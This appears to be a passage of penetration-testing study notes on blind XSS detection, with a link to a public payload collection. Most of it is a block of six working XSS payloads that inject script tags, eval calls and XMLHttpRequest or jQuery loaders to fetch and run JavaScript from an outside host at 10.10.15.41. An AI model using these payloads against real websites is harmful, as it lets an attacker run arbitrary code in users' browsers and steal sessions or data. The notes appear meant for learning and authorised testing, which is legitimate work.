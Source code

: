 ![xss assessment await-moderation](/images/xss-assessmennt-await-moderation.png)  

>Reference: [PayloadALlTheThings XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc)  

## Blind XSS Detection  

>A Blind XSS vulnerability occurs when the vulnerability is triggered on a page we don't have access to.  

>Testing payloads to identify Blind XSS - loading a remote script:  

```
<script src=http://10.10.15.41></script>
'><script src=http://10.10.15.41></script>
"><script src=http://10.10.15.41></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://10.10.15.41\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//10.10.15.41");a.send();</script>
<script>$.getScript("http://10.10.15.41")</script>
```  
